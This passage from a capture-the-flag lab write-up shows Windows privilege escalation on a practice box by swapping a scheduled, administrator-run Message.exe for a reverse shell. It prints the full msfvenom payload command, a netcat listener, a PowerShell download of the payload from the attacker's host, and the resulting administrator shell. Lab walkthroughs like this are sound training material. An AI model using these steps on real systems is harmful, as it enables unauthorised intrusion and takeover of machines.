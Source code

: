Putting together what we've found so far we can see we have an executable called Message.exe being executed by administrator in a directory that has Everyone [WriteData/CreateFiles] permissions. So our escalation path is clear, we just need to switch Message.exe for our own reverse shell exe.

First let's create a shell using MSFVenom in our webserver folder so we can grab it from the box:

```text
kali@kali:~$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.14.6.200 LPORT=1337 -f exe -o Message.exe

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: Message.exe
```

Start a new terminal window and start NetCat listening:

```text
kali@kali:~/thm/hackpark$ nc -nlvp 1337
listening on [any] 1337 ...
```

Now go back to the box and move the existing Message.exe out of the way and pull our reverse shell across to replace it:

```text
C:\Program Files (x86)\SystemScheduler>rename Message.exe Message.old
C:\Program Files (x86)\SystemScheduler>powershell Invoke-WebRequest -Uri http://10.14.6.200:8000/Message.exe -Outfile Message.exe
C:\Program Files (x86)\SystemScheduler>dir
 Directory of C:\Program Files (x86)\SystemScheduler
05/17/2007  12:47 PM             1,150 alarmclock.ico
08/31/2003  11:06 AM               766 clock.ico
08/31/2003  11:06 AM            80,856 ding.wav
02/01/2021  02:16 PM    <DIR>          Events
08/04/2019  03:36 AM                60 Forum.url
01/08/2009  07:21 PM         1,637,972 libeay32.dll
11/15/2004  11:16 PM             9,813 License.txt
02/01/2021  01:27 PM             1,496 LogFile.txt
02/01/2021  01:27 PM             3,760 LogfileAdvanced.txt
02/01/2021  02:17 PM             7,168 Message.exe
03/25/2018  09:58 AM           536,992 Message.old
```

After a small wait we get a connection as root:

```text
kali@kali:~/thm/hackpark$ nc -nlvp 1337
listening on [any] 1337 ...
connect to [10.14.6.200] from (UNKNOWN) [10.10.81.166] 49523
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.
C:\>whoami
hackpark\administrator
```
